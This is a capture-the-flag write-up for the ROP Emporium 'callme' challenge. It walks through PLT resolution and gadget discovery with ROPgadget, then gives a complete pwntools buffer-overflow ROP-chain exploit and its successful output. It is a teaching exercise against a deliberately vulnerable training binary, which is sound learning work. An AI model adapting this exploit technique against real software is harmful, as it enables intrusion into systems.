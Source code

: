 # callme

_call me maybe?_

This is where it gets interesting. Remember when I said to research the PLT last writeup? Yeah, this is why.

If you haven't already, read up on how it works. You can do so [here](https://ropemporium.com/guide.html#Appendix%20A), but there are tons of resources out there.

In this challenge, the author makes life easy for us and removes the need for any reversing by telling us the objective:

> You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag. For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)

This means we need to control `rdi`, `rsi`, and `rdx`, as parameters to functions are passed in these registers.

Looking at the binary in Cutter, we see the same three functions:

```text
sym.main
sym.pwnme
sym.usefulFunction
```

We also see this:

```text
sym.imp.callme_one
sym.imp.callme_two
sym.imp.callme_three
```

Now, the functions we have to call are outside of the binary. They are located in `libcallme.so`, which was provided with the challenge. This means they are dynamically resolved at runtime as they are called.

Going back to the binary, we'll take a look at `usefulFunction`'s decompilation:

```c
void usefulFunction(void)
{
    callme_three(4, 5, 6);
    callme_two(4, 5, 6);
    callme_one(4, 5, 6);
    exit(1);
    return;
}
```

Well, that's not very useful. Looking at the disassembly only strengthens this:

```assembly
; addresses removed for brevity
; usefulFunction ();
push    rbp
mov     rbp, rsp
mov     edx, 6
mov     esi, 5
mov     edi, 4
call    callme_three ; sym.imp.callme_three
mov     edx, 6
mov     esi, 5
mov     edi, 4
call    callme_two ; sym.imp.callme_two
mov     edx, 6
mov     esi, 5
mov     edi, 4
call    callme_one ; sym.imp.callme_one
mov     edi, 1 ; int status
call    exit ; sym.imp.exit ; void exit(int status)
```

Not only are the functions called in the wrong order, they are also called with the wrong arguments. In fact, we can't change these arguments, because we don't control `edx`, `esi`, or `edi`. We could find a gadget somewhere and `ret` directly to the calls after popping the required values into our registers, but that would we a long and complicated ROP chain.

As it turns out, this function is only here to make sure that the functions get imported by the linker and their entries get placed in the PLT.

So, instead of jumping to this, we could just jump to their entries in the PLT.

Now, all we need to do is find a gadget that can pop `rdi`, `rsi`, and `rdx`. The order doesn't matter, as we can craft the buffer overflow to suit the gadget. We can use `ROPgadget` to find such a gadget like so:

```text
$ ROPgadget --binary ./callme | grep rdi
0x0000000000400a3d : add byte ptr [rax], al ; add byte ptr [rbp + rdi*8 - 1], ch ; call qword ptr [rax + 0x23000000]
0x0000000000400a3f : add byte ptr [rbp + rdi*8 - 1], ch ; call qword ptr [rax + 0x23000000]
0x0000000000400a3c : add byte ptr fs:[rax], al ; add byte ptr [rbp + rdi*8 - 1], ch ; call qword ptr [rax + 0x23000000]
0x000000000040093b : lcall [rdi + 0x5e] ; pop rdx ; ret
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
0x00000000004009a3 : pop rdi ; ret
```

Look at that second last result.

```text
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
```

Three birds with one stone. Perfect.

With this, we can construct our exploit:

```python
from pwn import *

context.arch = "amd64"

# doing this saves us from hardcoding a lot of stuff
elf = context.binary = ELF("./callme")

# case in point:
# we can just lookup the addresses of each function via the symbol table.
# no need to trawl through the PLT looking for them.
CALLMES = [
    p64(elf.symbols.callme_one),
    p64(elf.symbols.callme_two),
    p64(elf.symbols.callme_three),
]

# set the params we need to call the functions with
RDI = p64(0xdeadbeefdeadbeef)
RSI = p64(0xcafebabecafebabe)
RDX = p64(0xd00df00dd00df00d)

# still need to hardcode this though
# pop rdi; pop rsi; pop rdx; ret
GADGET = p64(0x40093c)

# overflow the buffer
payload = b'A' * 40

# since we add the exact same things in the exact same order for each call,
# just use a loop
for i in range(3):
    # first ret to the gadget
    payload += GADGET
    # the gadget will pop rdi
    payload += RDI
    # then pop rsi
    payload += RSI
    # then pop rdx
    payload += RDX
    # then ret to the function
    payload += CALLMES[i]

conn = process("./callme")

conn.recvuntil(b'> ')
conn.send(payload)
recved = conn.recvall()

# pretty print because we can
print(recved.decode("ascii"))
```

Great. We can run this now.

```text
$ python exploit.py

[*] '/home/sammy/Projects/binexp/ropemporium/3-callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process './callme': pid 186777
[+] Receiving all data: Done (104B)
[*] Process './callme' stopped with exit code 0 (pid 186777)
Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```

pwned.
